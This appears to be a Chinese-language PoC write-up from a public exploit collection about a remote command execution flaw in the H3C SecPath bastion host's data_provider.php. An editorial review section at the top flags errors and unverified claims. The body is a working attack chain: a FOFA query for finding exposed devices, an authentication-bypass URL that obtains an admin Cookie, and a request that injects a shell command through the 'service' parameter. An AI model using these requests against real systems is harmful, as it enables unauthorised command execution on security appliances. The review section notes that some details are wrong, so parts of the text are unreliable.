

# H3C SecParh堡垒机 data_provider.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：H3C SecPath堡垒机
- 本文讨论：data_provider.php service命令注入
- 版本、权限与配置前提：需有效Cookie，可用gui_detail_view前置漏洞取得
- 资料类型：两步PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- SecParh错误；影响版本仅产品名
- 参数ds_min40缺等号；第二步未展示Cookie或响应文本
- 无厂商/原始研究来源

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 具体版本和Cookie链待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令

## 漏洞影响

```
H3C SecParh堡垒机
```

## 网络测绘

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## 漏洞复现

登录页面如下




先通过任意用户登录获取Cookie

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```


```plain
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```


---

> 来源：Threekiii/Awesome-POC
